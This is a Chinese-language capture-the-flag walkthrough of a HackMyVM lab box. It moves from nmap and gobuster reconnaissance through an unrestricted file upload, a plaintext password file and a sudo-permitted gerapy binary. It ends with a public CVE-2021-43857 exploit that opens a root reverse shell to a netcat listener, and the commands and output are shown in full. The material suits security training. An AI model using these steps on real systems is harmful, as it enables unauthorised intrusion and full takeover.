

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 20:31 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0017s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00016s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.056s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00032s latency).
MAC Address: 08:00:27:1E:65:26 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.15 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 20:32 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:1E:65:26 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.5  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 20:33 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:1E:65:26 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

# 漏洞利用

看一下80端口，一个登录页面


目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.5 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,jpg,png,zip,git
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git                 (Status: 301) [Size: 169] [--> http://192.168.21.5/.git/]                                                 
/images               (Status: 301) [Size: 169] [--> http://192.168.21.5/images/]                                               
/index.php            (Status: 200) [Size: 2126]
/banner.jpg           (Status: 200) [Size: 157626]
/a.php                (Status: 200) [Size: 0]
/mail                 (Status: 301) [Size: 169] [--> http://192.168.21.5/mail/]                                                 
/signup.php           (Status: 200) [Size: 8008]
/documents.php        (Status: 200) [Size: 6317]
/admin.php            (Status: 200) [Size: 3827]
/css                  (Status: 301) [Size: 169] [--> http://192.168.21.5/css/]                                                  
/status.php           (Status: 200) [Size: 0]
/tabs.php             (Status: 200) [Size: 4031]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/captcha.php          (Status: 500) [Size: 0]
/validate.php         (Status: 200) [Size: 18]
/combo                (Status: 301) [Size: 169] [--> http://192.168.21.5/combo/]                                                
/scode                (Status: 301) [Size: 169] [--> http://192.168.21.5/scode/]                                                
/.git                 (Status: 301) [Size: 169] [--> http://192.168.21.5/.git/]                                                 
/bootstrap            (Status: 301) [Size: 169] [--> http://192.168.21.5/bootstrap/]                                            
/editform.php         (Status: 200) [Size: 1391]
/jquery               (Status: 301) [Size: 169] [--> http://192.168.21.5/jquery/]                                               
/global_search.php    (Status: 500) [Size: 0]
/fileupload.php       (Status: 200) [Size: 1]
/viewdoc.php          (Status: 200) [Size: 0]
/adminlogin.php       (Status: 200) [Size: 2666]
/studentpic           (Status: 301) [Size: 169] [--> http://192.168.21.5/studentpic/]                                           
/viewform.php         (Status: 200) [Size: 260]
/getuser.php          (Status: 200) [Size: 1]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

漏洞扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --script=vuln -p22,80 192.168.21.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 20:51 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00029s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-git: 
|   192.168.21.5:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/rskoolrash/Online-Admission-System
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /admin.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.21.5
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.21.5:80/
|     Form id: index
|     Form action: index.php
|     
|     Path: http://192.168.21.5:80/index.php
|     Form id: index
|     Form action: index.php
|     
|     Path: http://192.168.21.5:80/signup.php
|     Form id: signup
|     Form action: signupconfirm.php
|     
|     Path: http://192.168.21.5:80/signupconfirm.php
|     Form id: signupconfirm
|_    Form action: signupconfirm.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /admin.php: Possible admin folder
|   /.gitignore: Revision control ignore file
|_  /.git/HEAD: Git folder
MAC Address: 08:00:27:1E:65:26 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.60 seconds
```

找到了一个git仓库
/documents.php可以上传文件，fileupload.php未做任何文件类型验证或限制，并且可以看到上传目录studentpic/

```markup
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                          
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.5] 46376
Linux university 5.10.0-10-amd64 #1 SMP Debian 5.10.84-1 (2021-12-08) x86_64 GNU/Linux
 21:15:11 up 43 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (347): Inappropriate ioctl for device
bash: no job control in this shell
www-data@university:/$
```

# 提权

看看有没有可以利用的

```markup
www-data@university:/$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
www-data@university:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/sudo
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
www-data@university:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
www-data@university:/$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
sandra:x:1000:1000:sandra,,,:/home/sandra:/bin/bash
```

从文件中找到了一段字符串，试试是不是密码

```markup
www-data@university:~/html$ cat .sandra_secret
cat .sandra_secret
Myyogaiseasy
```

切换sandra成功

```markup
www-data@university:~/html$ su sandra 
su sandra
Password: Myyogaiseasy
id
uid=1000(sandra) gid=1000(sandra) groups=1000(sandra),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

user.txt

```markup
sandra@university:~$ cat user.txt
HMV0948328974325HMV
```

查找可利用的地方

```markup
sudo -l
Matching Defaults entries for sandra on university:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sandra may run the following commands on university:
    (root) NOPASSWD: /usr/local/bin/gerapy
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/sudo
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```

提权

```markup
sudo /usr/local/bin/gerapy
Usage: gerapy [-v] [-h]  ...

Gerapy 0.9.6 - Distributed Crawler Management Framework

Optional arguments:
  -v, --version       Get version of Gerapy
  -h, --help          Show this help message and exit

Available commands:  
    init              Init workspace, default to gerapy
    initadmin         Create default super user admin
    runserver         Start Gerapy server
    migrate           Migrate database
    createsuperuser   Create a custom superuser
    makemigrations    Generate migrations for database
    generate          Generate Scrapy code for configurable project
    parse             Parse project for debugging
    loaddata          Load data from configs
    dumpdata          Dump data to configs
sandra@university:~$ sudo /usr/local/bin/gerapy migrate
Operations to perform:
  Apply all migrations: admin, auth, authtoken, contenttypes, core, django_apscheduler, sessions
Running migrations:
  Applying contenttypes.0001_initial... OK
  Applying auth.0001_initial... OK
  Applying admin.0001_initial... OK
  Applying admin.0002_logentry_remove_auto_add... OK
  Applying admin.0003_logentry_add_action_flag_choices... OK
  Applying contenttypes.0002_remove_content_type_name... OK
  Applying auth.0002_alter_permission_name_max_length... OK
  Applying auth.0003_alter_user_email_max_length... OK
  Applying auth.0004_alter_user_username_opts... OK
  Applying auth.0005_alter_user_last_login_null... OK
  Applying auth.0006_require_contenttypes_0002... OK
  Applying auth.0007_alter_validators_add_error_messages... OK
  Applying auth.0008_alter_user_username_max_length... OK
  Applying auth.0009_alter_user_last_name_max_length... OK
  Applying auth.0010_alter_group_name_max_length... OK
  Applying auth.0011_update_proxy_permissions... OK
  Applying authtoken.0001_initial... OK
  Applying authtoken.0002_auto_20160226_1747... OK
  Applying authtoken.0003_tokenproxy... OK
  Applying core.0001_initial... OK
  Applying core.0002_auto_20180119_1210... OK
  Applying core.0003_auto_20180123_2304... OK
  Applying core.0004_auto_20180124_0032... OK
  Applying core.0005_auto_20180131_1210... OK
  Applying core.0006_auto_20180131_1235... OK
  Applying core.0007_task_trigger... OK
  Applying core.0008_auto_20180703_2305... OK
  Applying core.0009_auto_20180711_2332... OK
  Applying core.0010_auto_20191027_2040... OK
  Applying django_apscheduler.0001_initial... OK
  Applying django_apscheduler.0002_auto_20180412_0758... OK
  Applying django_apscheduler.0003_auto_20200716_1632... OK
  Applying django_apscheduler.0004_auto_20200717_1043... OK
  Applying django_apscheduler.0005_migrate_name_to_id... OK
  Applying django_apscheduler.0006_remove_djangojob_name... OK
  Applying django_apscheduler.0007_auto_20200717_1404... OK
  Applying django_apscheduler.0008_remove_djangojobexecution_started... OK
  Applying sessions.0001_initial... OK
sandra@university:~$ sudo /usr/local/bin/gerapy createsuperuser
Username: admin
Email address: user@qq.com     
Password: 
Password (again): 
The password is too similar to the username.
This password is too common.                                    
Bypass password validation and create user anyway? [y/N]: y     
Superuser created successfully.
sandra@university:~$ su admin
su: user qwer1234 does not exist or the user entry does not contain all the required fields

┌──(kali㉿kali)-[~]
└─$ searchsploit gerapy         
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
Gerapy 0.9.7 - Remote Code Ex | python/remote/50640.py
------------------------------ ---------------------------------
Shellcodes: No Results                                                     
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 50640
  Exploit: Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50640
     Path: /usr/share/exploitdb/exploits/python/remote/50640.py
    Codes: CVE-2021-43857
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/50640.py

sandra@university:~$ sudo /usr/local/bin/gerapy runserver 0.0.0.0:8080
Watching for file changes with StatReloader
Performing system checks...

INFO - 2025-04-08 09:46:16,920 - process: 845 - scheduler.py - gerapy.server.core.scheduler - 102 - scheduler - successfully synced task with jobs with force
System check identified no issues (0 silenced).
April 08, 2025 - 09:46:16
Django version 2.2.24, using settings 'gerapy.server.server.settings'
Starting development server at http://0.0.0.0:8080/
Quit the server with CONTROL-C.

┌──(kali㉿kali)-[~]
└─$ python3 50640.py -t 192.168.21.5 -p 8080 -L 192.168.21.11 -P 1234
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[!] Something went wrong! Maybe the token is corrupted?
```

还需要再创建一个项目，用我们刚才创建的用户登录就好，如果创建失败可以手动在靶机创建：mkdir -p /home/sandra/projects/test



```markup
┌──(kali㉿kali)-[~]
└─$ python3 50640.py -t 192.168.21.5 -p 8080 -L 192.168.21.11 -P 1234
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 1234 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.5] 50734
root@university:/home/sandra#
```

root.txt

```markup
root@university:~# cat root.txt
cat root.txt
HMV1111190877987HMV
```